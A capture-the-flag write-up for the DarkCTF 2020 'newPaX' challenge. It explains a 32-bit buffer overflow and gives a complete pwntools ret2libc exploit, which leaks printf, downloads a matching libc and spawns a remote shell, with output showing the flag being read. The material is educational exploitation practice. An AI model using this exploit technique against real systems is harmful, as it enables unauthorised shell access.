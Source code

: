 # DarkCTF 2020

## pwn/newPaX

> 95 solves / 411 points
>
> Author: gr4n173
>
> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.
>
> `nc pwn.darkarmy.xyz 5001`
>  
> [newPaX](newPaX)

Tags: _pwn_ _x86_ _remote-shell_ _rop_ _bof_


## Summary

`read` buffer overflow with no stack protection.

> This is virtually the same as [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what), _except it's 32-bits_.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
void vuln(void)
{
  undefined local_34 [44];
  
  __x86.get_pc_thunk.ax();
  read(0,local_34,200);
  return;
}
```

`read` bof vulnerability (reading 200 bytes into a 44-byte buffer that is `0x34` (52) bytes from the return address in the stack).  Easy ROP since no canary or PIE.  To get to the return address send `0x34` bytes (gotta love how Ghidra tells you that, i.e. `local_34`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./newPaX')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    libc_index = 5
    p = remote('newpax.darkarmy.xyz', 5001)
```

Boilerplate pwntools.  Notice there's no `libc` set for `REMOTE` since we have to find it first (see `libc_index` below).


### Leak libc

```python
payload  = 0x34 * b'A'
payload += p32(binary.plt.printf)
payload += p32(binary.sym.vuln)
payload += p32(binary.got.printf)

p.send(payload)
_ = p.recv(4)
printf = u32(_)
log.info('printf: ' + hex(printf))
p.recv(20)
```

Standard `printf` _printing_ itself.  With the `printf` location known we can find the version and base address of libc.  The last part of the payload jumps back to `vuln` for a second and final pass.

> While nearly identical to [roprop](https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop), less got this, perhaps 32-bit is a mystery.
> 
> x86 32-bit systems pass params via the stack, no need for ROP gadgets like `pop rdi`.  The params are return address, then params to the function.  Above we're calling `printf` to leak itself, then setting the return address to `vuln` for a 2nd pass, then finally the first argument to `printf`--it's own address (the leak).  Sometimes you have to worry about `EBX`, but that's a [story](https://github.com/datajerk/ctf-write-ups/tree/master/auctf2020/house-of-madness#but-wait--theres-more) for another time.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'printf':hex(printf)[-3:]}})
        libc_url = r.json()[libc_index]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[libc_index]['download_url']` needs to be changed if the downloaded libc does not work, just increment `libc_index` (see above) until you get the right one (`5` in this case).


### Get a shell, get the flag

```python
payload  = 0x34 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.send(payload)
p.interactive()
```

Pop a shell, get the flag.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/darkctf2020/newpax/newPaX'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to newpax.darkarmy.xyz on port 5001: Done
[*] printf: 0xf7d67bd0
[*] getting: https://libc.rip/download/libc6-i386_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/darkctf2020/newpax/libc6-i386_2.27-3ubuntu1.2_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0xf7d17000
[*] Switching to interactive mode
$ ls -l
total 32
drwxr-x--- 1 0 1000 4096 Sep 25 01:59 bin
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 dev
-rwxr----- 1 0 1000   49 Sep 21 17:58 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 lib
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 lib64
-rwxr-x--- 1 0 1000 7568 Sep 19 11:14 newPaX
$ cat flag.txt
darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}
```

> _Is the flag hinting at a [ret2dlresolve](https://docs.pwntools.com/en/beta/rop/ret2dlresolve.html) solution?_  Not what I used here.
